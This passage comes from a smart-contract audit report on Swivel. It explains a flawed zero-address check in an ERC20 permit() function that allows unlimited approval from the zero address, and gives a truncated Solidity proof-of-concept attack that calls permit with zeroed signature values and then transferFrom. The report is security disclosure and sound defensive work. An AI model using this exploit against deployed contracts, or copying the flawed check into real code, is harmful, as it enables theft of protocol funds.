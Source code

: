 > The example given is incorrect. `Compounding.Underlying()` is correct as `Compounding` is our library that abstracts the actual call to get the asset in question.
> 
> The actual error is in the Compounding lib where `.Protocol` resolves to `Protocols.Yearn`.

**[robrobbins (Swivel) resolved](https://github.com/code-423n4/2022-07-swivel-findings/issues/29#issuecomment-1211145751):**

> Addressed: [https://github.com/Swivel-Finance/gost/pull/422](https://github.com/Swivel-Finance/gost/pull/422).

* * *

[](#m-07-erc20-incorrect-check-on-returnedaddress-in-permit-results-in-unlimited-approval-of-zero-address)[\[M-07\] ERC20 Incorrect check on returnedAddress in permit() results in unlimited approval of zero address](https://github.com/code-423n4/2022-07-swivel-findings/issues/72)
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by devtooligan_

When creating ERC20.sol from Solmate, a `require()` in `permit()` was converted to a custom error incorrectly.

It now reads:

    if (recoveredAddress != address(0) && recoveredAddress != owner) {
        revert Invalid(msg.sender, owner);
    }

So if the `recoveredAddress` is non-zero and the `recoveredAddress` is not `owner` it will error. But if the `recoveredAddress == 0x0` then it will pass this check.

Anyone can permit themselves as a `spender` using the zero address for any token which inherits this ERC20 implementation. So, for example, someone could redeem some zcTokens for underlying, then transfer the burned tokens back to themselves and repeat, draining the protocol.

### [](#proof-of-concept-5)Proof of Concept

    function attack(IZcToken zctoken) {
        zctoken.permit(
            address(0x0),
            address(this),
            type(uint).max,
            block.timestamp,
            uint8(0),  // using 0 for r,s,v returns address(0x0) from ecrecover()
            bytes32(0),
            bytes32(0)
        );
        assert(zctoken.allowance(address(0x0), address(this)), type(uint).max);
    
        uint amount = zctoken.balanceOf(address(0x0)
    
        zctoken.transferFrom(
            address(0x0),
            address(this),
            amount
        );
    